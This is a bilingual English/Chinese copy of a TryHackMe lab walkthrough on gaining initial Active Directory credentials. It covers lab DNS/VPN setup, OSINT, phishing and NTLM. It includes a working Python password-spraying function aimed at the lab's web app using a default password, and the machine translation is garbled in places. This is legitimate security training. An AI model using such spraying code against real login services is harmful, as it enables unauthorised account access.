










# Breaching Active Directory

# 破坏活动目录

This network covers techniques and tools that can be used to acquire that first set of AD credentials that can then be used to enumerate AD.
该网络涵盖了可用于获取第一组 AD 凭据的技术和工具，然后可以使用这些凭据来枚举 AD。


网络拓扑


### task 1

Active Directory (AD) is used by approximately 90% of the Global Fortune 1000 companies. If an organisation's estate uses Microsoft Windows, you are almost guaranteed to find AD. Microsoft AD is the dominant suite used to manage Windows domain networks. However, since AD is used for Identity and Access Management of the entire estate, it holds the keys to the kingdom, making it a very likely target for attackers.
全球财富 1000 强企业中约有 90% 使用 Active Directory ( AD )。如果一个组织使用 Microsoft Windows 系统，那么几乎可以肯定它部署了 AD。Microsoft AD 是管理 Windows 域网络的主流套件。然而，由于 AD 用于整个组织的身份和访问管理，它掌握着关键的控制权，因此极易成为攻击者的目标。

For a more in-depth understanding of AD and how it works, [please complete this room on AD 广告 basics first. 先从基础开始。](https://tryhackme.com/jr/winadbasics)
为了更深入地了解 AD 及其工作原理，请完成此房间的问卷。

Breaching Active Directory
破坏活动目录

Before we can exploit AD misconfigurations for privilege escalation, lateral movement, and goal execution, you need initial access first. You need to acquire an initial set of valid AD credentials. Due to the number of AD services and features, the attack surface for gaining an initial set of AD credentials is usually significant. In this room, we will discuss several avenues, but this is by no means an exhaustive list.
在利用 AD 配置错误进行权限提升、横向移动和目标执行之前，首先需要获得初始访问权限。您需要获取一组有效的 AD 凭据。由于 AD 服务和功能众多，获取初始 AD 凭据的攻击面通常很大。在本次会议中，我们将讨论几种途径，但这绝非全部途径。

When looking for that first set of credentials, we don't focus on the permissions associated with the account; thus, even a low-privileged account would be sufficient. We are just looking for a way to authenticate to AD, allowing us to do further enumeration on AD itself.
在寻找第一组凭据时，我们并不关注帐户的权限；因此，即使是低权限帐户也足够了。我们只是在寻找一种能够对 AD 进行身份验证的方法，以便对 AD 本身进行进一步枚举。

Learning Objectives 学习目标

In this network, we will cover several methods that can be used to breach AD. This is by no means a complete list as new methods and techniques are discovered every day. However, we will cover the following techniques to recover AD credentials in this network:
在本网络中，我们将介绍几种可用于入侵 AD 的方法。这绝非完整列表，因为每天都会发现新的方法和技术。但是，我们将介绍以下几种用于恢复本网络中 AD 凭据的技术：

- NTLM Authenticated Services 认证服务
- LDAP Bind Credentials 绑定凭据
- Authentication Relays 认证中继
- Microsoft Deployment Toolkit
  Microsoft 部署工具包
- Configuration Files 配置文件

We can use these techniques on a security assessment either by targeting systems of an organisation that are internet-facing or by implanting a rogue device on the organisation's network.
我们可以通过两种方式在安全评估中使用这些技术：一是针对组织面向互联网的系统，二是向组织的网络植入恶意设备。

Connecting to the Network
连接到网络

**AttackBox 攻击盒**

If you are using the Web-based AttackBox, you will be connected to the network automatically if you start the AttackBox from the room's page. You can verify this by running the ping command against the IP of the THMDC.za.tryhackme.com host. We do still need to configure DNS, however. Windows Networks use the Domain Name Service (DNS) to resolve hostnames to IPs. Throughout this network, DNS will be used for the tasks. You will have to configure DNS on the host on which you are running the VPN connection. In order to configure our DNS, run the following command:
如果您使用的是基于 Web 的 AttackBox，从房间页面启动 AttackBox 后，您将自动连接到网络。您可以通过对 THMDC.za.tryhackme.com 主机的 IP 地址运行 ping 命令来验证这一点。但是，我们仍然需要配置 DNS。Windows 网络使用域名服务 ( DNS ) 将主机名解析为 IP 地址。整个网络将使用 DNS 来完成各项任务。您需要在运行 VPN 连接的主机上配置 DNS 。要配置 DNS ，请运行以下命令：

Terminal 终端

```shell-session
[thm@thm]$ sed -i '1s|^|nameserver THMDCIP\n|' /etc/resolv-dnsmasq
```

 

Remember to replace THMDCIP with the IP of THMDC in your network diagram. Once done, make sure to restart the DNS service using `systemctl restart dnsmasq`. You can test that DNS is working by running:
请记住将网络拓扑图中的 THMDCIP 替换为 THMDC 的 IP 地址。完成后，务必使用 `systemctl restart dnsmasq` 重启 DNS 服务。您可以通过运行以下命令测试 DNS 是否正常工作：

```
nslookup thmdc.za.tryhackme.com
```

This should resolve to the IP of your DC.
这应该会解析到您的数据中心的 IP 地址。

**Note: DNS may be reset on the AttackBox roughly every 3 hours. If this occurs, you will have to rerun the command specified above. If your AttackBox terminates and you continue with the room at a later stage, you will have to redo all the DNS steps.
注意：攻击机上的 DNS 大约每 3 小时重置一次。如果发生这种情况，您需要重新运行上述命令。如果您的攻击机终止，并且您稍后继续使用该房间，则需要重新执行所有 DNS 设置步骤。**

You should also take the time to make note of your VPN IP. Using `ifconfig` or `ip a`, make note of the IP of the **breachad** network adapter. This is your IP and the associated interface that you should use when performing the attacks in the tasks.
您还应该花时间记下您的 VPN IP 地址。使用 `ifconfig` 或 `ip a` ，记下 **Breachad** 网络适配器的 IP 地址。这就是您在执行任务中的攻击时应该使用的 IP 地址和关联的接口。

**Other Hosts 其他主持人**

If you are going to use your own attack machine, an OpenVPN configuration file will have been generated for you once you join the room. Go to your [access](https://tryhackme.com/access) page. Select 'BreachingAD' from the VPN servers (under the network tab) and download your configuration file.
如果您要使用自己的攻击机，加入房间后系统会自动为您生成一个 OpenVPN 配置文件。请前往您的[访问](https://tryhackme.com/access)页面，在 VPN 服务器（位于“网络”选项卡下）中选择“BreachingAD”，然后下载您的配置文件。


Use an OpenVPN client to connect. This example is shown on a Linux machine; similar guides to connect using Windows or macOS can be found at your [access](https://tryhackme.com/access) page.
使用 OpenVPN 客户端进行连接。本示例在 Linux 系统上演示；您可以在[访问](https://tryhackme.com/access)页面找到使用 Windows 或 macOS 系统连接的类似指南。

Terminal 终端

```shell-session
[thm@thm]$ sudo openvpn breachingad.ovpn
Fri Mar 11 15:06:20 2022 OpenVPN 2.4.9 x86_64-redhat-linux-gnu [SSL (OpenSSL)] [LZO] [LZ4] [EPOLL] [PKCS11] [MH/PKTINFO] [AEAD] built on Apr 19 2020
Fri Mar 11 15:06:20 2022 library versions: OpenSSL 1.1.1g FIPS  21 Apr 2020, LZO 2.08
[....]
Fri Mar 11 15:06:22 2022 /sbin/ip link set dev tun0 up mtu 1500
Fri Mar 11 15:06:22 2022 /sbin/ip addr add dev tun0 10.50.2.3/24 broadcast 10.50.2.255
Fri Mar 11 15:06:22 2022 /sbin/ip route add 10.200.4.0/24 metric 1000 via 10.50.2.1
Fri Mar 11 15:06:22 2022 WARNING: this configuration may cache passwords in memory -- use the auth-nocache option to prevent this
Fri Mar 11 15:06:22 2022 Initialization Sequence Completed
```

The message "Initialization Sequence Completed" tells you that you are now connected to the network. Return to your access page. You can verify you are connected by looking on your access page. Refresh the page, and you should see a green tick next to Connected. It will also show you your internal IP address.
“初始化序列完成”消息表示您已连接到网络。返回您的访问页面。您可以通过查看访问页面来确认连接状态。刷新页面后，您应该会在“已连接”旁边看到一个绿色对勾。页面上还会显示您的内部 IP 地址。


**Note:** You still have to configure DNS similar to what was shown above. It is important to note that although not used, the DC does log DNS requests. If you are using your own machine, these logs may include the hostname of your device. For example, if you run the VPN on your kali machine with the hostname of kali, this will be logged.
**注意：** 您仍然需要配置与上述类似的 DNS 设置。需要注意的是，尽管域控制器 (DC) 不使用 DNS 请求日志，但它会记录这些请求。如果您使用的是自己的机器，这些日志可能包含您设备的主机名。例如，如果您在主机名为 kali 的 Kali 机器上运行 VPN ，则该主机名将被记录。

**Kali 时间**

If you are using a Kali VM, Network Manager is most likely used as DNS manager. You can use GUI Menu to configure DNS:
如果您使用的是 Kali 虚拟机，则 Network Manager 很可能被用作 DNS 管理器。您可以使用图形用户界面菜单来配置 DNS：

- Network Manager -> Advanced Network Configuration -> Your Connection -> IPv4 Settings
  网络管理器 -> 高级网络配置 -> 您的连接 -> IPv4 设置
- Set your DNS IP here to the IP for THMDC in the network diagram above
  在此处将 DNS IP 地址设置为上方网络图中 THMDC 的 IP 地址。
- Add another DNS such as 1.1.1.1 or similar to ensure you still have internet access
  添加另一个 DNS 服务器地址，例如 1.1.1.1 或类似地址，以确保您仍然可以访问互联网。
- Run `sudo systemctl restart NetworkManager` and test your
  运行 `sudo systemctl restart NetworkManager` 并测试您的DNS similar to the steps above.
  与上述步骤类似。

Debugging DNS
调试 DNS

DNS will be a part of Active Directory testing whether you like it or not. This is because one of the two major AD authentication protocols, Kerberos, relies on DNS to create tickets. Tickets cannot be associated with IPs, so DNS is a must. If you are going to test AD networks on a security assessment, you will have to equip yourself with the skills required to solve DNS issues. Therefore, you usually have two options:
无论你是否喜欢， DNS 都将是 Active Directory 测试的一部分。这是因为两大 AD 身份验证协议之一 Kerberos 依赖 DNS 来创建票据。票据不能与 IP 地址关联，因此 DNS 必不可少。如果你要进行 AD 网络安全评估，则必须具备解决 DNS 问题所需的技能。因此，你通常有两种选择：

- You can hardcode  你可以硬编码DNS entries into your `/etc/hosts` file. While this may work well, it is infeasible when you will be testing networks that have more than 10000 hosts.
  在 `/etc/hosts` 文件中添加条目。虽然这种方法可能有效，但如果您要测试拥有超过 10000 台主机的网络，则这种方法不可行。
- You can spend the time required to debug the DNS issue to get it working. While this may be harder, in the long run, it will yield you better results.
  您可以花些时间调试 DNS 问题，直到它正常工作。虽然这可能更难，但从长远来看，会带来更好的结果。

Whenever one of the tasks within this room is not working for you, your first thought should be: *Is my DNS working?* From experience, I, the creator of this network, can tell you that I've wasted countless hours on assessments wondering why my tooling is not working, only to realise that my DNS has changed.
如果这个房间里的任何一项任务无法正常运行，你首先应该想到的是： *我的 DNS 设置是否正常？* 作为这个网络的创建者，我以亲身经历告诉你，我曾浪费无数时间进行评估，苦苦思索工具为何无法工作，最终才发现是 DNS 设置发生了变化。

Whenever you think that your DNS configuration might not be working as it should, follow these steps to do some debugging:
如果您怀疑 DNS 配置可能出现故障，请按照以下步骤进行调试：

1. Follow the steps provided above. Make sure to follow the steps for your specific machine type.- If you use a completely different OS, you will have to do some googling to find your equivalent configuration.
   请按照上述步骤操作。务必确保步骤与您的机器型号相匹配。如果您使用的是完全不同的操作系统，则需要自行搜索相关信息以找到相应的配置。
2. Run `ping <THM DC IP>` - This will verify that the network is active. If you do not get a response from the ping, it means that the network is not currently active. If your network says that it is running after you have refreshed the room page and you still get no ping response, contact
   运行 `ping <THM DC IP>` - 这将验证网络是否处于活动状态。如果 ping 命令没有响应，则表示网络当前未激活。如果您刷新房间页面后网络显示正在运行，但仍然没有 ping 响应，请联系我们。THM 三卤甲烷 support but simply waiting for the network timer to run out before starting the network again will fix the issue.
   虽然可以提供支持，但只需等待网络计时器结束再重新启动网络即可解决此问题。
3. Run `nslookup za.tryhackme.com <THM DC IP>` - This will verify that the DNS server within the network is active, as the domain controller has this functional role. If the ping command worked but this does not, time to contact support since there is something wrong. It is also suggested to hit the network reset button.
   运行 `nslookup za.tryhackme.com <THM DC IP>` - 这将验证网络中的 DNS 服务器是否处于活动状态，因为域控制器具有此功能角色。如果 ping 命令有效但此命令无效，则需要联系技术支持，因为存在问题。建议同时尝试重置网络。
4. Finally, run `nslookup tryhackme.com` - If you now get a different response than the one in step three, it means there is something wrong with your
   最后，运行 `nslookup tryhackme.com` ——如果您现在得到的响应与第三步中的响应不同，则表示您的配置存在问题。DNS configuration. Go back to the configuration steps at the start of the task and follow them again. A common issue seen on Kali is that the
   配置。返回任务开始时的配置步骤，并再次按照步骤操作。Kali 上常见的问题是……DNS entry is placed as the second one in your `/etc/resolv.conf` file. By making it the first entry, it will resolve the issue.
   该条目目前位于 `/etc/resolv.conf` 文件的第二个位置。将其改为第一个条目即可解决此问题。

These AD networks are rated medium, which means if you just joined THM, this is probably not where you should start your learning journey. AD is massive and you will need to apply the mindset of *figuring stuff* *out* if you want to make a success of testing it. However, if all of the above still fails, please be as descriptive as possible on what you are trying to do when you contact support, to allow them to help you as efficiently as possible.
这些 AD 网络被评为中等难度，这意味着如果您刚加入 THM ，这可能不是您学习之旅的起点 。AD 非常庞大，如果您想成功进行测试，就需要具备*探索和解决问题**的*能力。但是，如果以上方法仍然无效，请在联系支持团队时尽可能详细地描述您遇到的问题，以便他们能够最高效地帮助您。

使用windows电脑连接vpn后，要更改dns配置，接下来是windows电脑更改教程

找到控制面板里面的网络和Internet


点进去


更改适配器设置


右键属性


添加DNS服务器


测试


配置成功


### task 2

Two popular methods for gaining access to that first set of AD credentials is Open Source Intelligence (OSINT) and Phishing. We will only briefly mention the two methods here, as they are already covered more in-depth in other rooms.
获取第一组 AD 凭据的两种常用方法是开源情报 ( OSINT ) 和网络钓鱼。我们在此仅简要提及这两种方法，因为其他房间已对其进行了更深入的探讨。

**OSINT 开源情报**

OSINT is used to discover information that has been publicly disclosed. In terms of AD credentials, this can happen for several reasons, such as:
开源情报（OSINT） 用于发现已公开披露的信息。就 AD 凭据而言，这种情况可能由多种原因造成，例如：

- Users who ask questions on public forums such as [Stack Overflow(opens in new tab)](https://stackoverflow.com/)
  在 Stack Overflow 等公共论坛上提问的用户 but disclose sensitive information such as their credentials in the question.
  但问题中却泄露了敏感信息，例如他们的资质证书。
- Developers that upload scripts to services such as [Github(opens in new tab)](https://github.com/)
  将脚本上传到 GitHub 等服务的开发者 with credentials hardcoded.
  凭据已硬编码。
- Credentials being disclosed in past breaches since employees used their work accounts to sign up for other external websites. Websites such as [HaveIBeenPwned(opens in new tab)](https://haveibeenpwned.com/)
  过去的安全漏洞导致凭证泄露，原因是员工使用工作账户注册其他外部网站。例如 HaveIBeenPwned 等网站。 and [DeHashed(opens in new tab)](https://www.dehashed.com/) 和 DeHashed provide excellent platforms to determine if someone's information, such as work email, was ever involved in a publicly known data breach.
  提供优秀的平台，以确定某人的信息（例如工作电子邮件）是否曾卷入公开已知的泄露事件。

By using OSINT techniques, it may be possible to recover publicly disclosed credentials. If we are lucky enough to find credentials, we will still need to find a way to test whether they are valid or not since OSINT information can be outdated. In Task 3, we will talk about NTLM Authenticated Services, which may provide an excellent avenue to test credentials to see if they are still valid.
利用开源情报（OSINT） 技术，或许可以恢复公开披露的凭证。即便我们幸运地找到了凭证，仍然需要找到方法来验证其有效性，因为开源情报信息可能已经过时。在任务 3 中，我们将讨论 NTLM 身份验证服务，它或许能为验证凭证是否仍然有效提供绝佳途径。

A detailed room on Red Team OSINT can be found [here.](https://tryhackme.com/jr/redteamrecon)
这里有关于红队开源情报的详细讨论 [。](https://tryhackme.com/jr/redteamrecon)

**Phishing 网络钓鱼**

Phishing is another excellent method to breach AD. Phishing usually entices users to either provide their credentials on a malicious web page or ask them to run a specific application that would install a Remote Access Trojan (RAT) in the background. This is a prevalent method since the RAT would execute in the user's context, immediately allowing you to impersonate that user's AD account. This is why phishing is such a big topic for both Red and Blue teams.
网络钓鱼是另一种入侵 AD 的绝佳方法。网络钓鱼通常会诱骗用户在恶意网页上提供凭据，或者要求他们运行某个特定应用程序，该应用程序会在后台安装远程访问木马 (RAT)。这种方法非常普遍，因为 RAT 会在用户的上下文中执行，从而立即允许攻击者冒充该用户的 AD 帐户。正因如此，网络钓鱼对于红蓝双方来说都是一个重要的课题。

A detailed room on phishing can be found [here.](https://tryhackme.com/module/phishing)
这里有一个关于网络钓鱼的详细页面 [。](https://tryhackme.com/module/phishing)


### task 3

NTLM 和 NetNTLM

New Technology LAN Manager (NTLM) is the suite of security protocols used to authenticate users' identities in AD. NTLM can be used for authentication by using a challenge-response-based scheme called NetNTLM. This authentication mechanism is heavily used by the services on a network. However, services that use NetNTLM can also be exposed to the internet. The following are some of the popular examples:
新技术局域网管理器 ( NTLM ) 是一套用于在 AD 中验证用户身份的安全协议。NTLM 可以通过一种称为 NetNTLM 的基于质询-响应的方案进行身份验证。这种身份验证机制被网络上的服务广泛使用。然而，使用 NetNTLM 的服务也可能暴露在互联网上。以下是一些常见示例：

- Internally-hosted Exchange (Mail) servers that expose an Outlook Web App (
  内部托管的 Exchange（邮件）服务器，公开 Outlook Web 应用程序（OWA) login portal. 登录门户。
- Remote Desktop Protocol (
  远程桌面协议RDP) service of a server being exposed to the internet.
  ）服务器暴露于互联网的服务。
- Exposed  裸露VPN endpoints that were integrated with
  与以下设备集成的端点AD 广告.
- Web applications that are internet-facing and make use of NetNTLM.
  面向互联网并使用 NetNTLM 的 Web 应用程序。

NetNTLM, also often referred to as Windows Authentication or just NTLM Authentication, allows the application to play the role of a middle man between the client and AD. All authentication material is forwarded to a Domain Controller in the form of a challenge, and if completed successfully, the application will authenticate the user.
NetNTLM（也常被称为 Windows 身份验证或简称 NTLM 身份验证）允许应用程序充当客户端和 AD 之间的中间人。所有身份验证材料都以质询的形式转发到域控制器，如果质询成功，应用程序将对用户进行身份验证。

This means that the application is authenticating on behalf of the user and not authenticating the user directly on the application itself. This prevents the application from storing AD credentials, which should only be stored on a Domain Controller. This process is shown in the diagram below:
这意味着应用程序代表用户进行身份验证，而不是直接在应用程序本身上对用户进行身份验证。这可以防止应用程序存储 AD 凭据，这些凭据只能存储在域控制器上。此过程如下图所示：


Brute-force Login Attacks
暴力破解登录攻击

As mentioned in Task 2, these exposed services provide an excellent location to test credentials discovered using other means. However, these services can also be used directly in an attempt to recover an initial set of valid AD credentials. We could perhaps try to use these for brute force attacks if we recovered information such as valid email addresses during our initial red team recon.
如任务 2 所述，这些暴露的服务为测试通过其他方式发现的凭据提供了绝佳场所。此外，这些服务也可直接用于尝试恢复初始的有效 AD 凭据集。如果我们在初始红队侦察期间恢复了诸如有效电子邮件地址之类的信息，或许可以尝试利用这些凭据进行暴力破解攻击。

Since most AD environments have account lockout configured, we won't be able to run a full brute-force attack. Instead, we need to perform a password spraying attack. Instead of trying multiple different passwords, which may trigger the account lockout mechanism, we choose and use one password and attempt to authenticate with all the usernames we have acquired. However, it should be noted that these types of attacks can be detected due to the amount of failed authentication attempts they will generate.
由于大多数 AD 环境都配置了帐户锁定，我们无法执行完整的暴力破解攻击。因此，我们需要执行密码喷洒攻击。我们不尝试多个不同的密码（这可能会触发帐户锁定机制），而是选择并使用一个密码，然后尝试使用我们已获取的所有用户名进行身份验证。但是，需要注意的是，这类攻击会因为产生大量的身份验证失败尝试而被检测到。

You have been provided with a list of usernames discovered during a red team OSINT exercise. The OSINT exercise also indicated the organisation's initial onboarding password, which seems to be "Changeme123". Although users should always change their initial password, we know that users often forget. We will be using a custom-developed script to stage a password spraying against the web application hosted at this URL:
您已收到一份在红队开源情报 (OSINT) 演练中发现的用户名列表。该演练还指出了该组织的初始注册密码，似乎是“Changeme123”。虽然用户应该始终更改其初始密码，但我们知道用户经常会忘记。我们将使用自定义脚本对托管于以下 URL 的 Web 应用程序执行密码喷洒攻击：[http://ntlmauth.za.tryhackme.com](http://ntlmauth.za.tryhackme.com/).

Navigating to the URL, we can see that it prompts us for Windows Authentication credentials:
访问该网址后，我们可以看到它提示我们输入 Windows 身份验证凭据：


**Note:** *Firefox's Windows Authentication plugin is incredibly prone to failure. If you want to test credentials manually, Chrome is recommended.*
**注意：** *Firefox 的 Windows 身份验证插件极易失效。如果您想手动测试凭据，建议使用 Chrome。*

We could use tools such as
我们可以使用一些工具，例如[Hydra 九头蛇(opens in new tab)](https://github.com/vanhauser-thc/thc-hydra) to assist with the password spraying attack. However, it is often better to script up these types of attacks yourself, which allows you more control over the process. A base python script has been provided in the task files that can be used for the password spraying attack. The following function is the main component of the script:
为了辅助进行密码喷洒攻击，我们提供了脚本。然而，通常最好自己编写这类攻击脚本，这样可以更好地控制整个过程。任务文件中提供了一个可用于密码喷洒攻击的基础 Python 脚本。以下函数是该脚本的主要组成部分：

```python
def password_spray(self, password, url):
    print ("[*] Starting passwords spray attack using the following password: " + password)
    #Reset valid credential counter
    count = 0
    #Iterate through all of the possible usernames
    for user in self.users:
        #Make a request to the website and attempt Windows Authentication
        response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
        #Read status code of response to determine if authentication was successful
        if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
            print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
            count += 1
            continue
        if (self.verbose):
            if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                print ("[-] Failed login with Username: " + user)
    print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")
```

This function takes our suggested password and the URL that we are targeting as input and attempts to authenticate to the URL with each username in the textfile. By monitoring the differences in HTTP response codes from the application, we can determine if the credential pair is valid or not. If the credential pair is valid, the application would respond with a 200 HTTP (OK) code. If the pair is invalid, the application will return a 401 HTTP (Unauthorised) code.
此函数以我们建议的密码和目标 URL 作为输入，并尝试使用文本文件中的每个用户名对该 URL 进行身份验证。通过监控应用程序返回的 HTTP 响应代码的差异，我们可以判断凭据对是否有效。如果凭据对有效，应用程序将返回 200 HTTP（OK）代码。如果凭据对无效，应用程序将返回 401 HTTP（未授权）代码。

Password Spraying 密码喷洒

If you are using the AttackBox, the password spraying script and usernames textfile is provided under the `/root/Rooms/BreachingAD/task3/` directory. We can run the script using the following command:
如果您使用的是 AttackBox，密码喷洒脚本和用户名文本文件位于 `/root/Rooms/BreachingAD/task3/` 目录下。我们可以使用以下命令运行该脚本：
